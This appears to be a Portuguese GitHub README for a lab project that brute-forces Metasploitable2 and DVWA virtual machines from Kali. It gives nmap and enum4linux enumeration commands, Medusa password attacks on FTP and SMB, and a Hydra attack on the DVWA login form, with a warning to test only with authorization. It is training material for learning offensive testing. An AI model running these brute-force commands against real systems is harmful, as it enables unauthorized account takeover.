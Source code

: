 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"

Imagens do Projeto

<div style="display: flex; gap: 10px;">
  <img src="./imagem1.png.PNG" alt="Página Inicial" width="170" height="auto">
  <img src="./imagem2.png.PNG" alt="Página Inicial" width="170" height="auto">
  <img src="./imagem3.png.PNG" alt="Página Inicial" width="170" height="auto">
  <img src="./imagem4.png.PNG" alt="Página Inicial" width="170" height="auto">
  <img src="./imagem5.png.PNG" alt="Página Inicial" width="170" height="auto">
  
</div>




